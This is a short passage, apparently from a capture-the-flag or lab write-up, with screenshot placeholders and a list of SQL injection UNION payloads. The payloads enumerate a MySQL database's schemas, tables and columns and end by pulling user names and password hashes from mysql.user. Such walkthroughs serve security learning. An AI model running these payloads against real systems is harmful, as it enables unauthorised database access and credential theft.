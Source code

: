 ![](./images/12.png)

- And it's true

![](./images/13.png)

- Let's dump the database
  - `' UNION SELECT 1,2,3 -- -`
  - `' UNION SELECT schema_name,2,3 FROM information_schema.schemata-- -`
  - `' UNION SELECT table_schema,table_name,3 FROM information_schema.tables -- -`
  - `' UNION SELECT concat(table_schema,':',table_name ),column_name,3 FROM information_schema.columns -- -`
  - `' UNION SELECT user,password,3 FROM mysql.user -- -`

![](./images/14.png)
